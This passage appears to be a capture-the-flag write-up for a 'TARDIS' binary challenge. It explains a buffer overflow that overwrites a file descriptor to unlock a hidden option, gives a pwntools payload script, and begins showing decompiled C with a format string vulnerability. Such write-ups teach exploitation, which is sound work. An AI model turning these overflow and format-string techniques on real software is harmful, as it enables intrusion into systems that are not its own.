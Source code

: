 Notice that `dword_50B0[2]` is the **fd**, and `dword_50B0[0]` is our **input buffer**(where the program store our **options**). By overflowing `dword_50B0[0]`, we can overwrite the value stored in `dword_50B0[2]` (the initial value is **3**, we'll have to overwrite it to **0**(`stdin`) so we can write our input into `dword_50A4`). 

To sum up, here are the steps for enabling the option 3:
1. Overwrite the **fd** (`dword_50B0[2]`) into **0** by overflowing `dword_50B0[0]`
2. Write the value into `dword_50A4` so it can pass the checking function `sub_E08()`. Notice that `sub_BCB()` is called by sending the `SIGALARM` signal, so be aware of the timing.
3. Select option **1**, for turning on the TARDIS console.
4. Option 3 will be enabled successfully after we turn on a TARDIS console.

Here's the payload:
```python
print t.recvuntil("Selection: ")
log.info("overwriting fd...")
t.send("11111111\x00\n") # overwrite fd into stdin
print t.recvuntil("Selection: ")
time.sleep(2) # wait for 2 second (until the service call sub_BCB())
log.info("enable choice 3...")
t.send("m+YU\n") # m+YU = 1431907181
t.send("1\n")    # turn on the TARDIS console
print t.recvuntil("Selection: ")
log.info("writing fd back...")
t.send("11111111\x03\n") # write the fd back
print t.recvuntil("Selection: ")
t.sendline("3")
t.recvuntil("Coordinates: ")
log.success("choice 3 enabled success")
```

After we successfully enable option 3, let's see what does it do: 
```c
int choice3()
{
  double v0; // ST28_8@6
  int result; // eax@9
  char *nptr; // [sp+24h] [bp-424h]@4
  double v3; // [sp+30h] [bp-418h]@6
  char s; // [sp+3Ch] [bp-40Ch]@2
  int v5; // [sp+43Ch] [bp-Ch]@1

  v5 = *MK_FP(__GS__, 20);
  while ( 1 )
  {
    while ( 1 )
    {
      printf("Coordinates: ");
      fflush(stdout);
      if ( sub_F7E(0, (int)&s, 1023, 10) == -1 ) // input coordinates
        exit(-1);
      nptr = strchr(&s, ','); // split with ','
      if ( nptr )
        break;
      puts("Invalid coordinates");
    }
    v0 = atof(&s);
    v3 = atof(nptr + 1);
    printf("%f, %f\n", v0, v3);
    if ( 51.492137 != v0 || -0.192878 != v3 )
      break;
    printf("Coordinate ");
    printf(&s); // format string vulnerability
    printf(" is occupied by another TARDIS.  Materializing there ");
    puts("would rip a hole in time and space. Choose again.");
```